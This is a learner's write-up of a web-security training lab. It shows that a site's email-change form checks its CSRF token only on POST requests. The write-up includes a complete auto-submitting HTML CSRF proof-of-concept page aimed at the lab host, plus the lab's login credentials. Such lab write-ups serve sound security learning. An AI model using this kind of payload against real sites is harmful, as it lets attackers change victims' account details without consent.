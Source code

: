 # Practitioner Lab 78 : CSRF where token validation depends on request method

---

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

I start this lab by looking at the functionality of the lab and seeing when a CSRF token is needed for me to change the email.

![Untitled](Practitioner%20Lab%2078%20CSRF%20where%20token%20validation%20de%20e525860113d746e6864c6d09a90cf569/Untitled.png)

I can see that when a post is made I need to use the CSRF token but what about any other methods?

![Untitled](Practitioner%20Lab%2078%20CSRF%20where%20token%20validation%20de%20e525860113d746e6864c6d09a90cf569/Untitled%201.png)

Here I can see the allowed methods are GET and POST so now I will try to do a GET request to see if it needed.

![Untitled](Practitioner%20Lab%2078%20CSRF%20where%20token%20validation%20de%20e525860113d746e6864c6d09a90cf569/Untitled%202.png)

This seems to have worked and when I check my page it did work. So now I will use this to do a CSRF attack.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2900400400aeb3818d5216006000ae.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="attackedBY&#64;me" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

After using the following payload on the Exploit server I was able to solve the lab.

![Untitled](Practitioner%20Lab%2078%20CSRF%20where%20token%20validation%20de%20e525860113d746e6864c6d09a90cf569/Untitled%203.png)